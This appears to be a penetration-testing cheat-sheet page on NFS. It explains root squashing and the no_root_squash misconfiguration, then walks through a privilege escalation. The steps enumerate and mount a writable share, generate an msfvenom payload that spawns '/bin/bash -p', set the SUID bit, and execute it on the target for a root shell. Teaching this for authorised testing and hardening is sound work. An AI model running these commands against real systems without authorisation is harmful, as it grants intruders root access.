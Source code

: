 # NFS

NFS (Network File System) is a popular distributed file system.NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files. By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

## <mark style="color:red;">Useful Commands</mark>

Show the NFS server’s export list:

#### `showmount -e [target]`

Similar Nmap script:

#### `nmap –sV –script=nfs-showmount [target]`

Mount an NFS share:

#### `mount -o rw,vers=2 [target]:[share] [local_directory]`

## <mark style="color:red;">Root Squashing</mark>

Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group.While this behavior is default, it can be disabled!

## <mark style="color:red;">no\_root\_squash</mark>

no\_root\_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no\_root\_squash option:

#### `cat /etc/exports`

![](../../../.gitbook/assets/nfs1.png)

Confirm that the NFS share is available for remote mounting:

#### `root@W4LK3R:~# showmount -e 192.168.1.25` `Export list for 192.168.56.102:` `/tmp *`

Create a mount point on your local machine and mount the /tmp NFS share:

#### `mkdir /tmp/nfs` `mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs`

Using the root user on your local machine, generate a payload and save it to the mounted share:

#### `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make sure the file has the SUID bit set, and is executable by everyone:

#### `chmod +xs /tmp/nfs/shell.elf`

On the target machine, execute the file to get a root shell:

#### `/tmp/shell.elf`
